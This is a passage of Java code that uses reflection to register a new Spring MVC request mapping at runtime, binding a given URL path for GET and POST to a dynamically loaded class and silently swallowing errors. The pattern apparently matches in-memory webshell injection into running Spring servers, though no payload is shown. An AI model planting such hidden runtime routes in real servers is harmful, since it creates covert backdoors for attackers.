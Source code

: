 ```java
            Object foo = Array.newInstance(requestMethod, 0);
            Constructor constructor = getClass("org.springframework.web.servlet.mvc" +
                    ".condition" +
                    ".RequestMethodsRequestCondition").getConstructor(foo.getClass());
            Object get = getField("org.springframework.web.bind.annotation.RequestMethod", "GET",null);
            Object post = getField("org.springframework.web.bind.annotation.RequestMethod", "POST", null);
            Object requestMethodsRequestCondition = null;
            Object rmA = Array.newInstance(requestMethod, 2);
            Array.set(rmA, 0, get);
            Array.set(rmA, 1, post);
            try {
                requestMethodsRequestCondition = constructor.newInstance(rmA);
            } catch (Exception e) {
                throw new Exception("requestMethodsRequestCondition is null");
            }

            Constructor<?>[] requestMappingInfoCs = getClass("org.springframework.web.servlet.mvc.method.RequestMappingInfo").getConstructors();
            Constructor constructor1 = getClass("org.springframework.web.servlet.mvc.condition" +
                    ".PatternsRequestCondition").getConstructor(String[].class);
            Object patternsRequestCondition = constructor1.newInstance(new Object[]{ new String[]{webPath}});
            Object requestMappingInfo = null;
            for (Constructor tmpC : requestMappingInfoCs) {
                try {
                    requestMappingInfo = tmpC.newInstance(patternsRequestCondition, requestMethodsRequestCondition,
                            null, null, null, null, null);
                    break;
                } catch (Exception e) {
                }
            }
            if (requestMappingInfo == null) {
                throw new Exception("requestMappingInfo is null");
            }
            Object[] args = {requestMappingInfo, Class.forName(targetClass, true, classLoader).newInstance(), targetMethod};
            Method registerMapping = null;
            try {
                registerMapping = getClass("org.springframework.web.servlet.handler.AbstractHandlerMethodMapping")
                        .getMethod("registerMapping",new Class[]{Object.class,Object.class,Method.class});
            } catch (Exception e) {
                throw new Exception("registerMapping is null");
            }
            try {
                registerMapping.invoke(requestMappingHandlerMapping, args);
            } catch (Exception e) {
                throw new Exception("registerMapping invoke error");
            }

        } catch (Exception e) {
  
        }
    }

    private static Object getField(Object object, String fieldName,Object dst) throws Exception {
        if (dst == null) {
            dst = object;
        }
```